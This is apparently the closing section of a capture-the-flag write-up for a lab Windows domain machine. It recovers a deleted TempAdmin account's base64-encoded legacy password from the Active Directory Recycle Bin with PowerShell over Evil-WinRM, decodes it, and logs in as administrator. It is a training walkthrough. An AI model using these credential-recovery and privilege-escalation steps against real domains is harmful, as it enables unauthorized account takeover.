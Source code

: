 This means that a deleted user's password might be recoverable too.

* From the Meeting Notes we found earlier, we know that a `TempAdmin` shares the same password as the administrator. 
* However, the Audit.db records also show that `TempAdmin` has been deleted.

Now, let's retrieve deleted objects. Note the `includeDeletedObjects` parameter, without it, the [cmdlet](https://docs.microsoft.com/en-us/powershell/module/addsadministration/get-adobject?view=win10-ps) will not return deleted objects.

```
*Evil-WinRM* PS C:\Windows> Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects
<SNIP>
Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059
```

After confirming that `TempAdmin` is among the deleted objects, let's retrieve all attributes of TempAdmin, referring to it by its `ObjectGUID`.

```
*Evil-WinRM* PS C:\Windows> Get-ADObject -Identity ‘f0cc344d-31e0-4866-bceb-a842791ca059’ -properties *  -includeDeletedObjects
<SNIP>
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
<SNIP>
```

We find another password which is probably base64 encoded like the first legacy password we found.

```
root@kali:~/htb/cascade# echo YmFDVDNyMWFOMDBkbGVz | base64 -d
baCT3r1aN00dles
```

Let's try using it to log in as the administrator.

```
# evil-winrm -i 10.10.10.182 -u administrator -p baCT3r1aN00dles
<SNIP>
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cascade\administrator
```

And we are root.

# Thoughts

 This is a very enjoyable box. I especially like the continuous build-up from the early hints at TempAdmin to the final privilege escalation through AD Recycle Bin.
